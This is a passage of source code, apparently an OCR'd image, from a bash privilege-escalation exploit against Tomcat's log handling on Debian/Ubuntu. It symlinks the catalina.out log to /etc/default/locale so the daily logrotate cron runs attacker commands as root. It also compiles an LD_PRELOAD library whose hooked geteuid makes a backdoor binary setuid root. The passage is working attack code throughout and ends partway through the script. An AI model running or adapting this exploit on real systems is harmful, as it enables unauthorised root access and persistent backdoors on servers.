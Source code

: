 ```bash
echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
id | grep -q tomcat
if [ $? -ne 0 ]; then
    echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
    exit 3
fi

# Set target paths
TOMCATLOG="$1"
if [ ! -f $TOMCATLOG ]; then
    echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
    exit 3
fi
echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"

# [ Deferred exploitation ]

# Symlink the log file to /etc/default/locale file which gets executed daily on default
# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.
# Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
# restarted and file owner gets changed.
if [ "$mode" = "deferred" ]; then
    rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
    echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
    echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
    echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
    echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)
 \n\n"
    exit 0
fi

# [ Active exploitation ]

trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
uid_t geteuid(void) {
    static uid_t  (*old_geteuid)();
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
    return old_geteuid();
}
_solibeof_
```